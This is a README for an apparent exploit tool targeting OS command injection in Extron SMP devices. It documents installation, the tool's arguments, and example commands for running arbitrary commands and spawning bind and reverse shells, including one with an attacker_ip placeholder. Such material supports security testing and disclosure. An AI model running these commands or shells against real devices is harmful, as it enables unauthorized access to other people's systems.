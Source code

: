 # Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

## Overview

This tool exploits OS command injection vulnerabilities in Extron SMP devices. It allows users to execute arbitrary commands and spawn shells (both bind and reverse) on the target system.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-command-injection.git
cd extron-smp-command-injection
pip install requests
```

## Usage

To run the tool, use the following command:

```bash
python main.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python main.py command <target_ip> <target_port> --username admin --password <password> "ls -la"
```

**Spawn a bind shell:**

```bash
python main.py bind <target_ip> <target_port> <local_port> --username admin --password <password>
```

**Spawn a reverse shell:**

```bash
python main.py reverse <target_ip> <target_port> <attacker_ip> <attacker_port> --username admin --password <password>
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.


## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
